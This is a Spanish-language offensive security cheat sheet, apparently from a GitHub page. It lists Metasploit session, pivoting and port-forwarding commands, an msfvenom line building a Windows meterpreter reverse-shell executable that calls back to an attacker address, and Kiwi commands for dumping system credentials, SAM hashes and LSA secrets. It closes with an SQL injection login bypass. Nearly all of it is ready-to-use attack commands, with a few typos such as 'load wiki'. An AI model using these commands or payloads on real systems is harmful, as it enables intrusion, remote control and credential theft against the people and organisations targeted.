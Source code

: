 ## **Sesiones**
```
sessions
sessions -u 4 -i <ID>
```

## **Modulos**
```
multi/handle
multi/manage/shell_to_meterpreter
multi/manage/autoroute
```

## **Rutas**
```
route
route add <IP RED> <ID>
route del <IP RED> <ID>
run autorute -s <IP RED>
```

## **Portforwarding**
```
portfwd
portfwd add -l <port local> -p <port victima> -r <IP victima>
portfwd del -l <port local> -p <port victima> -r <IP victima>
```

## **Msfvenom**
```Bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<tu dirección IP> LPORT=4444 -f exe > payload.exe
msfvenom --list payloads
msfvenom --list payloads | grep linux
msfvenom --list payloads | grep windows
```

## **Kiwi**
```Bash
load wiki #Cargar kiwi
creds_all #Cargar credenciales sistema
lsa_dump_sam #Obtener hash ususarios
lsa_dump_secret #Obtener credenciales secretas
```


# BBDD

## **SQL Injection**
### **Bypass de autenticación con una condición siempre verdadera**
```Mysql
User: ' OR '1'='1
Passwd: ' OR '1'='1
```
